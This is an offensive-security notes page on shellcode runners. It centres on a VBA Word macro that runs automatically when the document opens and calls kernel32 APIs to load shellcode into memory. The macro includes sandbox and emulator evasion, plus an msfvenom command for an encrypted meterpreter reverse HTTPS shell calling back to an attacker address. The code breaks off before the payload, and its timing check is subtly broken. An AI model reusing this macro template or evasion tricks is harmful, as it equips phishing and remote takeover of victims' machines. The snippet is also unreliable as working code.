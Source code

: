 ```yaml
---
description: Inject shellcode into current process's virtual address space
---
```


# Shellcode Runners




## VBA

[An explanation](https://stackoverflow.com/a/62127904) how to map C types to appropriate VBA types manually.

With this approach the shell lives until Word is not closed (no `WaitForSingleObject`):

{% code title="ShellcodeRunner.vba" %}
```vba
Private Declare PtrSafe Function VirtualAlloc Lib "kernel32" (ByVal lpAddress As LongPtr, ByVal dwSize As Long, ByVal flAllocationType As Long, ByVal flProtect As Long) As LongPtr
Private Declare PtrSafe Function RtlMoveMemory Lib "kernel32" (ByVal lDestination As LongPtr, ByRef sSource As Any, ByVal lLength As Long) As LongPtr
Private Declare PtrSafe Function CreateThread Lib "kernel32" (ByVal SecurityAttributes As Long, ByVal StackSize As Long, ByVal StartFunction As LongPtr, ThreadParameter As LongPtr, ByVal CreateFlags As Long, ByRef ThreadId As Long) As LongPtr
Private Declare PtrSafe Function Sleep Lib "kernel32" (ByVal mili As Long) As Long
Private Declare PtrSafe Function FlsAlloc Lib "kernel32" (ByVal lpCallback As LongPtr) As Long

Sub Document_Open()
  ShellcodeRunner
End Sub

Sub AutoOpen()
  ShellcodeRunner
End Sub

Function ShellcodeRunner()
  Dim buf As Variant
  Dim tmp As LongPtr
  Dim addr As LongPtr
  Dim counter As Long
  Dim data As Long
  Dim res As Long
  Dim dream As Integer
  Dim before As Date
  
  ' Check if we're in a sandbox by calling a rare-emulated API
  If IsNull(FlsAlloc(tmp)) Then
    Exit Function
  End If

  ' Sleep to evade in-memory scan + check if the emulator did not fast-forward through the sleep instruction
  dream = Int((1500 * Rnd) + 2000)
  before = Now()
  Sleep (dream)
  If DateDiff("s", t, Now()) < dream Then
    Exit Function
  End If

  ' msfvenom -p windows/meterpreter/reverse_https LHOST=10.10.13.37 LPORT=443 EXITFUNC=thread -f vbapplication --encrypt xor --encrypt-key a
```